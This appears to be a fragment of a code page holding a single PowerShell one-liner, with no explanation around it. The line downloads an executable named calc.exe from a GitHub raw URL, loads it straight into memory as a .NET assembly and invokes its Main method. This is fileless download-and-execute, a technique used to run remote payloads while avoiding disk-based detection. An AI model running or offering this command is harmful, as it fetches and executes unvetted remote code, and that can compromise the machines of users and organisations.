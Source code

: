 $bytes = (Invoke-WebRequest "https://raw.githubusercontent.com/adicpnn/ad-tools/main/calc.exe").Content;$assembly = [System.Reflection.Assembly]::Load($bytes);$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic');$entryPointMethod.Invoke($null, (, [string[]] ('foo', 'bar')))